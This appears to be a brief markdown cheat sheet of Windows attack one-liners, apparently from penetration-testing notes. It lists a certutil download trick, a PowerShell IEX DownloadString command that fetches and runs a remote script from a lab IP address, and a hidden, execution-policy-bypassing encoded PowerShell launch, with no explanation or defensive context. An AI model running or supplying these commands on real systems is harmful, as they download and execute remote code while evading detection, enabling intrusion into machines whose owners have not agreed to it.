 # DOS command to download http
```
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip`
```

# Powershell command to download and execute script
```
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.49.213/ouzmetbb.ps1')"
```
```
IEX(New-Object Net.WebClient).downloadString('http://192.168.49.213/ouzmetbb.ps1')
```

# powershell execute command as quietly as possible
```
powershell.exe -nop -exec bypass -w hidden -enc $BASE64STR
```

